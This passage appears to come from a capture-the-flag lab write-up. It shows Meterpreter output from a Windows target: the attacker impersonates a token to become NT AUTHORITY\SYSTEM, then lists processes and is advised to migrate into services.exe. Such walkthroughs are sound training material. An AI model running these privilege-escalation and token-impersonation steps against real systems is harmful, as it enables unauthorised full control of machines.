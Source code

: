     NT SERVICE\Power
    NT SERVICE\ShellHWDetection
    NT SERVICE\W32Time
    NT SERVICE\WdiServiceHost
    NT SERVICE\WinHttpAutoProxySvc
    NT SERVICE\wscsvc

    meterpreter > impersonate_token BUILTIN\\Administrators
    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                Call rev2self if primary process token is SYSTEM
    [+] Delegation token available
    [+] Successfully impersonated user NT AUTHORITY\SYSTEM

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

Output when running getuid: NT AUTHORITY\SYSTEM

#4 	

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name                  Arch  Session  User                          Path
    ---   ----  ----                  ----  -------  ----                          ----
    0     0     [System Process]                                                   
    4     0     System                x64   0                                      
    396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
    524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
    572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
    580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
    608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
    668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
    676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
    684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
    732   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
    776   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
    848   1824  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
    852   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
    924   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
    944   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
    992   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe